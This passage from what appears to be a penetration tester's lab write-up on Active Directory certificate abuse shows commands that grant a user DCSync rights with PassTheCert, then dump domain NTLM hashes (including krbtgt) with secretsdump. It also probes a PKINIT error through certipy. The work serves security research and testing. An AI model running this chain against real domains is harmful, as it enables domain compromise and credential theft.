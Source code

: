 And now we set de DCsync rights for our low privileged user using [PassTheCert.py](https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py):
```sh
┌──(kali㉿kali)-[~]
└─$ python3 passthecert.py -action modify_user -crt otheradmin.crt -key otheradmin.key -target testuser -elevate -domain testcorp.local -dc-host 172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Granted user 'testuser' DCSYNC rights!
```

And now we can use secretsdump:
```sh
┌──(kali㉿kali)-[~]
└─$ impacket-secretsdump 'testuser'@172.17.199.253
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0349c78bd4d8eab70da0b0683598b9b2:::
-- SNIPPED --
```

## KDC_ERROR_CLIENT_NOT_TRUSTED
This is an error that we encountered during a recent pentest. According to some online sources, this error indicates that DC does not support the PKINIT, however I think this is not the case, but correct me if I am wrong. Let's try to replicate this error. First, I will remove the `smart card logon` and `KDC Authentication` EKU from the following templates:

- Domain Controller Authentication
- Kerberos Authentication
- Vulnerable ESC1 template

Doing all this, I got the `KDC_ERR_PADATA_TYPE_NOSUPP` error:
```sh
┌──(kali㉿kali)-[~]
└─$ certipy-ad auth -pfx otheradmin.pfx -dc-ip 172.17.199.253 -domain testcorp.local -username otheradmin
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: otheradmin@testcorp.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

This is because I also removed the `KDC Authentication` EKU. So I added that back to the application policy but kept the `Smart Card logon` EKU removed. This time, I was still able to get the NT hash.
